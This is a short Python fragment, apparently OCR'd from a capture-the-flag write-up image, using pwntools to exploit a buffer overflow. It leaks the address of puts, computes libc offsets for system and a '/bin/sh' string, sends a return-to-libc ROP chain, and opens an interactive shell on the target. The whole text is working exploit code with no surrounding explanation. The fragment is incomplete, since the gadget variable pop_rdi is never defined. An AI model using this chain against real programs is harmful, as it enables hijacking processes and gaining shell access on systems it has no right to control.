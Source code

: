 ```py

p.sendline(payload)

p.recvuntil('try your best\n')

puts_addr = u64(p.recv(6).ljust(8,b'\x00'))

print(hex(puts_addr))

offset = puts_addr -  	0x0875a0    
system_addr = offset + 0x055410   
bin_sh = offset + 	0x1b75aa        

ret_addr = 0x000000000040101a

payload = 'a'*0x38 + p64(ret_addr) + p64(pop_rdi) + p64(bin_sh) + p64(system_addr)

p.sendline(payload)


p.interactive()

```




























